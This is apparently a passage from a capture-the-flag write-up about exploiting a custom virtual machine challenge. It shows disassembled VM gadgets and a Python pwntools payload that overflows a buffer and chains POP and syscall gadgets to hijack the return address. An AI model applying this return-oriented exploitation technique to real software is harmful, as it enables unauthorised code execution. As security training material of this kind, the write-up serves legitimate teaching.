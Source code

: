 We will craft our payload by `POP`ing 0 into `reg[0]` (read) and an arbitrary address we want to write to into `reg[1]`. We wrote to a part of the VM with a bunch of nulls (0x2000). We will then we return to `0xa70`, which just calls `syscall` and returns:

```nasm
0xa60: 00000016 00000002 00000100 000000001  → LOAD_IMM reg[2], 256 (0x100)
0xa70: 00000015 00000000 00000000 000000000  → SYSCALL (reg[0]=0, reg[1]=0, reg[2]=256)
0xa80: 00000011 00000000 0000000E 00000000  → MOV reg[0], reg[14] (reg[0] = 0)
0xa90: 00000011 0000000E 0000000D 00000000  → MOV reg[14], reg[13]
0xaa0: 00000010 0000000D 00000000 000000000  → POP reg[13]
0xab0: 0000000D 00000000 00000000 000000000  → RET
```

We craft our first payload like so:

{% hint style="warning" %}
Note that we have to +0x10 for each POP gadget in order to continue controlling the RIP on the stack after each RET
{% endhint %}

```python
pop_0 = 0x410
pop_1 = 0x510
write_sys = 0xa60

payload = b''
payload = payload.ljust(36, b'\x00')
payload = payload + p32(pop_0) + p32(0)
payload += p32(write_sys)

p.send(payload)

p.recv(10)
p.send(cyclic(200))
```

When we send this payload, we can break when the RET is executed to determine where it returns to. We broke at `+0x3eaf` and view the value in **RDX**, which should contain the return address.

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>
